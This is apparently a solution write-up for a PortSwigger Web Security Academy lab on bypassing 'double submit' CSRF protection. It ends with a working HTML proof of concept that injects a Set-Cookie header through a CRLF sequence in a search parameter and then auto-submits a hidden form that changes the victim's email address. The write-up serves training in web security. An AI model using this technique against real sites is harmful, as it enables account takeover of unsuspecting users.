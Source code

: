 
# CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/1.png)

---------------------------------------------

We find the CSRF token value in the POST parameter and the Cookie HTTP header, with the same value:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/2.png)

Using a random value, it still works:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/3.png)


The search function uses again the LastSearchTerm parameter with the last searched term:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/4.png)


We will update the PoC from the previous lab:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
      <form action="https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="TESTING123" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=TESTING123%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```


